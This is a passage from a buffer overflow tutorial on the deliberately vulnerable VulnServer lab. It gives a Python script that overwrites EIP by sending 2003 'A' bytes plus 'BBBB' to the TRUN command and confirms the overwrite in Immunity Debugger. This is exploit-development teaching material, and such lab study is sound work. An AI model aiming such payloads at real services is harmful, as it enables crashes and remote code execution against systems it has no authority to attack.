



Overwriting the EIP
As we have seen before, the EIP is at 2003 bytes and it is long 4 bytes (32bit)
Let's suppose that we overwrite the 4 byte with “BBBB” (the B size is 1 byte)
First of all, run VulnServer and Immunity Debugger (in “Running” mode)
Next, we need to create a python script:
overwrite_EIP.py:
#!/usr/bin/python
import sys, socket
# We are sending A until the offset (2003), then 4 "B" to overwrite it
offset = "A" * 2003 + "B" * 4
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.11.131',9999)) #Change with VulnServer IP Address
s.send(('TRUN /.:/' + offset))
s.close()
except:
print "Error connecting to server!!!"
sys.exit()
Now we can execute the program:





Got it!
Those are 4 "B" !!!